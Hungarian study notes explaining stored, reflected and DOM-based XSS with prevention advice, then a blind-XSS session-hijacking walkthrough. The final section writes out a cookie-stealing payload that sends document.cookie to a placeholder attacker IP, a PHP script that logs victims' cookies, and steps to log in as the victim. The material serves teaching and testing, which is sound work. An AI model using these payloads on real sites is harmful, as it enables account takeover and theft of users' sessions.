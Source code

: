 - Stored (Persistent) XSS
	-  A legkritikusabb típusú XSS, amely akkor fordul elő, amikor a felhasználói bemenetet a háttérben (például az adatbázisban) elmentik, majd később annak megjelenítésekor kerül végrehajtásra. Ez gyakran előfordul fórum hozzászólásokban, bejegyzésekben, profiladatoknál vagy üzeneteknél.

	 Miért veszélyes?
	 Tartós: minden alkalommal lefut, amikor valaki megnyitja az érintett oldalt.
	 Széleskörű hatás: nemcsak a támadót, hanem minden felhasználót érinti, aki megnyitja a fertőzött tartalmat.
	 
	 Kihasználható célokra: sütik, session tokenek ellopása, felhasználói fiókok átvétele, keylogger beszúrása, rosszindulatú kód terjesztése.

	 Példa:
	 ```js
	 <script>alert('XSS')</script>
	 ```
	 Ez elmentődik az adatbázisba.
	 Amikor más felhasználó betölti az oldalt, a böngésző lefuttatja a scriptet, és a támadó megszerzi a session cookie-ját.
	 
	 Megelőzés:
	 
	 Bemenet ellenőrzése és szűrése (input validation).
	 Kimenet megfelelő escape-elése (output encoding, pl. HTML entity encoding).
	 
	 Content Security Policy (CSP) használata.
	 Könyvtárak/keretrendszerek biztonságos sablonmotorjának használata (pl. React automatikus escaping).
	 
- Reflected (Non-Persistent) XSS
	- Visszaverődő (Reflected / Non-Persistent) XSS

	 Ez az XSS akkor fordul elő, amikor a felhasználói bemenetet a szerver feldolgozza, majd azonnal visszaküldi a kliensnek a weboldalon való megjelenítéshez, de nem tárolja az adatbázisban. Gyakran előfordul például keresési találatoknál, hibajelzéseknél vagy űrlapok validációs üzeneteinél.

	 Miért veszélyes?

	 Egyszeri: csak akkor fut le, ha az áldozat rákattint a támadó által előre elkészített rosszindulatú linkre.

	 Social engineering szükséges: a támadónak rá kell vennie a felhasználót, hogy megnyissa a fertőzött URL-t (pl. e-mailben, üzenetben, hirdetésben).

	 Kihasználható célokra: session adatok ellopása, adathalász oldalak létrehozása, felhasználó félrevezetése.

	 Példa:

	 Egy alkalmazás így adja vissza a keresési találatokat:

	 Nem található eredmény a következőre: <felhasználó_bemenete>


	 Ha a támadó egy ilyen linket küld:
	```html
	 http://example.com/search?q=<script>alert('XSS')</script>
	```


	 A felhasználó megnyitja, a böngésző futtatja a JavaScript kódot.

	 Megelőzés:

	 Bemenet escape-elése kimenet előtt (HTML entity encoding).

	 Paraméterek validálása és szűrése (pl. csak betűk, számok engedélyezése keresési mezőben).

	 HTTPOnly flag a sütiknél (így a JavaScript nem fér hozzájuk).

	 CSP használata a szkriptek korlátozására.
- DOM-based XSS
	- Egy másik **nem tartós (Non-Persistent)** XSS típus, amely akkor fordul elő, amikor a felhasználói bemenetet közvetlenül a böngésző (klien oldal) dolgozza fel, és a megjelenítés teljes egészében a kliens oldali kódon (JavaScript-en) keresztül történik, **anélkül, hogy az adat eljutna a háttérszerverhez**. Gyakran a kliens oldali paraméterekből (pl. `document.location`, `document.URL`, `document.referrer`) vagy az URL-ben található horgonyrészekből (`#anchor`) származik.

	 **Miért veszélyes?**

	-  **Nincs szerver oldali nyom**: a támadás teljes egészében a kliens oldalon zajlik, így a szerver logokban nem feltétlenül látszik.
    
	- ** Nehéz észrevenni**: a biztonsági szkennelők gyakran a szerver válaszaiban keresnek rosszindulatú kódot, de itt az csak a böngészőben jön létre.
    
	-  **Széles körű kihasználhatóság**: a támadó képes lehet átírni a DOM-ot, injektálni kódot, adathalász űrlapokat létrehozni, vagy rosszindulatú JavaScriptet futtatni.
    

	**Példa:**

	-  Egy weboldal kliens oldali JavaScriptje így használja az URL fragmentet:
    
    `document.getElementById("output").innerHTML = location.hash.substring(1);`
    
	-  Ha a támadó egy ilyen linket oszt meg:
    
    `http://example.com/page#<script>alert('XSS')</script>`
    
	-  Amikor a felhasználó megnyitja az oldalt, a böngésző a `#` utáni részt (hash) beilleszti az oldal DOM-jába, és lefuttatja a kódot.
    

	 **Megelőzés:**

	-  **Soha ne használj `innerHTML`-t nyers felhasználói adatokhoz** → helyette `textContent` vagy `innerText`.
    
	-  **Input sanitization a kliens oldalon is** (pl. DOMPurify használata).
    
	- ** Content Security Policy (CSP)** beállítása, hogy csak megbízható forrásból lehessen szkripteket futtatni.
    
	- ** JavaScript keretrendszerek beépített védelemével élni** (pl. React, Angular automatikusan escape-eli a kimenetet).
    

---
# Session Hijacking

**1. Session-kezelés a webalkalmazásokban**

- A modern weboldalak sütiket (cookies) használnak a bejelentkezett állapot fenntartására.
    
- Ha egy támadó megszerzi a felhasználó cookie-ját, beléphet a nevében jelszó nélkül.
    
- Ezt a támadást **Session Hijacking**-nek (vagy Cookie Stealingnek) nevezzük.
    

**2. Blind XSS (vak XSS)**

- Olyan XSS hiba, amelyet nem a támadó, hanem egy másik felhasználó (pl. Admin) böngészője futtat le.
    
- Tipikus helyek: kapcsolati űrlap, felhasználói adatok, értékelések, support ticket, HTTP fejlécek.
    
- Mivel a támadó nem látja közvetlenül a kimenetet, **remote script betöltést** használ:
    ```js
    <script src="http://TÁMADÓ_IP/username"></script>
    ```
        
    Ha a script betöltődik, tudjuk, hogy az adott mező sérülékeny.
    

**3. Tesztelési folyamat**

- Futassunk egy szervert a saját gépen (pl. `php -S 0.0.0.0:80`).
    
- Küldjük be a különböző mezőkbe az XSS payloadokat.
    
- Ha érkezik kérés a gépünkre, az jelzi, hogy a kód lefutott, és az adott mező sebezhető.
    
- Általában érdemes kihagyni az e-mail és jelszó mezőt, mert az előbbi validálva van, az utóbbi pedig titkosítva tárolódik.
    

**4. Session Hijacking exploitálás**

- Ha találtunk működő XSS payloadot, betölthetünk vele egy távoli JavaScriptet (`script.js`).
    
- A script ellopja a cookie-t, például:
    
    ```js
    new Image().src='http://TÁMADÓ_IP/index.php?c='+document.cookie;
    ```
    
- A támadó szerverén egy PHP script (`index.php`) fogadja és elmenti a cookie-kat:
    
    ```php
    if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```  
- Amikor az áldozat (pl. Admin) megnyitja az oldalt, a támadó megkapja a session cookie-t.
    

**5. Áldozat account átvétele**

- A megszerzett cookie értéket a támadó beállítja a böngészőben (pl. Firefox DevTools → Storage → Cookie hozzáadása).
    
- Oldal frissítés után már az áldozatként van bejelentkezve.
    

**6. Kulcspontok**

- A Blind XSS a legnehezebben észlelhető, mert a támadó nem látja a kimenetet.
    
- A sebezhetőséget remote payload segítségével lehet tesztelni.
    
- Session Hijackinggel teljes hozzáférés szerezhető az áldozat fiókjához.
    
- Védelem: input és output szűrés, CSP, sütiknél **HttpOnly** flag, secure session kezelés.